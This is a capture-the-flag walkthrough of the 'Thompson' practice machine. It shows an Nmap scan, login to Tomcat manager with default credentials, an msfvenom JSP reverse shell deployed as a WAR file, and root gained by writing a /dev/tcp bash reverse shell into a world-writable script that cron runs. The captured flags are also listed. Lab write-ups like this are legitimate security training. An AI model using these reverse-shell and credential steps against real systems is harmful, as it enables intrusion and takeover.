

# Thompson

## Description

boot2root machine for FIT and bsides guatemala CTF

read user.txt and root.txt

## Initial Scan

Let's start with an Nmap scan. The scan reveals three open ports:
* 22 ssh
* 8009 ajp13
* 8080 http

~~~
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-title: Apache Tomcat/8.5.5
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## Enumeration

Let's start with the web service. Apache Tomcat application is running on this port. There is no `/robots.txt`, so I ran `dirsearch` to find directories:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Thompson]
└─$ dirsearch -u http://$IP:8080/ -w /usr/share/dirb/wordlists/common.txt                        

  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 4613

Output File: /home/user/.dirsearch/reports/10.10.148.43/_21-11-13_06-52-10.txt

Error Log: /home/user/.dirsearch/logs/errors-21-11-13_06-52-10.log

Target: http://10.10.148.43:8080/

[06:52:12] Starting: 
[06:52:20] 302 -    0B  - /docs  ->  /docs/
[06:52:21] 302 -    0B  - /examples  ->  /examples/
[06:52:22] 200 -   21KB - /favicon.ico
[06:52:24] 302 -    0B  - /host-manager  ->  /host-manager/
[06:52:28] 302 -    0B  - /manager  ->  /manager/

Task Completed
~~~

The only useful one is `/manager`, but it requires authorization. Thankfully, the credentials are revealed on the following page:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Thompson]
└─$ curl -s "http://$IP:8080/manager/html" | html2text | head               
****** 401 Unauthorized ******
You are not authorized to view this page. If you have not changed any
configuration files, please examine the file conf/tomcat-users.xml in your
installation. That file must contain the credentials to let you use this
webapp.
For example, to add the manager-gui role to a user named tomcat with a password
of s3cret, add the following to the config file listed above.
<role rolename="manager-gui"/>
<user username="tomcat" password="s3cret" roles="manager-gui"/>   <-----------
Note that for Tomcat 7 onwards, the roles required to use the manager
~~~

Now we can connect to `/manager` using the followin creds:
* Username: `tomcat`
* Password: `s3cret`

## Reverse shell

There are two sections. One is for managing the applecations and one for uploading new ones. I used `msfvenom` to create a JSP reverse shell in a war file using the following command:

~~~
$ msfvenom -p java/jsp_shell_reverse_tcp lhost=<YOUR IP> lport=4444 -f war -o shell.war
~~~

Now that we have the file, we can uplaod it here:

Upload the reverse shell and open a listener (`rlwrap nc -lvnp 4444`). Now call the shell by navigating to `http://<MACHINE IP>:8080/shell`. Now we have a shell as `tomcat`. The first thing I did was spawning a TTY shell:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Thompson/files]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.2.77] from (UNKNOWN) [10.10.148.43] 40518
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
which python
/usr/bin/python
python -c "import pty;pty.spawn('/bin/bash')"
tomcat@ubuntu:/$
~~~

## User flag

I listed `/home` and there is only one user named `jack`. I found the user flag in `jack`'s home directory:

~~~
tomcat@ubuntu:/$ ls /home
jack
tomcat@ubuntu:/$ cd /home/jack
tomcat@ubuntu:/home/jack$ ls
id.sh  test.txt  user.txt
tomcat@ubuntu:/home/jack$ cat user.txt
39400c90bc683a41a8935e4719f181bf
~~~

user.txt: `39400c90bc683a41a8935e4719f181bf`

## Going root

Now we need to obtain the root flag. There is an sh file in jack's home directory named `id.sh` and a txt file named `test.txt`. Let's see the content:

~~~
tomcat@ubuntu:/home/jack$ cat id.sh
#!/bin/bash
id > test.txt
tomcat@ubuntu:/home/jack$ cat test.txt
uid=0(root) gid=0(root) groups=0(root)
~~~

`id.sh` runs `id` command and saves the result in `test.txt`. But as you can see, the command has been ran as `root` because we can see the id of the root user in the result. My first guess was a cronjob and checking `/etc/crontab` confirms this:

~~~
tomcat@ubuntu:/home/jack$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *	* * *	root	cd /home/jack && bash id.sh
#
~~~

`id.sh` is being ran by root every minute and it is writable to everyone: 

~~~
tomcat@ubuntu:/home/jack$ ls -la id.sh
-rwxrwxrwx 1 jack jack 26 Aug 14  2019 id.sh
~~~

We can modify `id.sh` and replace it with `cat /root/root.txt > test.txt` to save the content of the root flag in `test.txt` or a bash reverse shell to gain the root access. I chose the second way. Since it is being ran by root, we'll get a root shell. Let's do it then. Run the following command to insert a bash reverse shell to `id.sh`:

~~~
tomcat@ubuntu:/home/jack$ echo "bash -i >& /dev/tcp/<YOUR IP>/9001 0>&1" > id.sh
~~~

Now open a listener (`rlwrap nc -lvnp 9001`) and wait. After a little while we'll get a shell as `root`:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Thompson/files]
└─$ rlwrap nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.9.2.77] from (UNKNOWN) [10.10.148.43] 38648
bash: cannot set terminal process group (1241): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:/home/jack# id
uid=0(root) gid=0(root) groups=0(root)
~~~

## Root flag

Now we can head to `/root` and read the root flag:

~~~
root@ubuntu:/home/jack# cd /root
root@ubuntu:~# ls
root.txt
root@ubuntu:~# cat root.txt
d89d5391984c0450a95497153ae7ca3a
~~~

root.txt: `d89d5391984c0450a95497153ae7ca3a`

# D0N3! ; )

Thanks to the creator(s)!

Hope you had fun and leaned something.

Have a g00d one! : )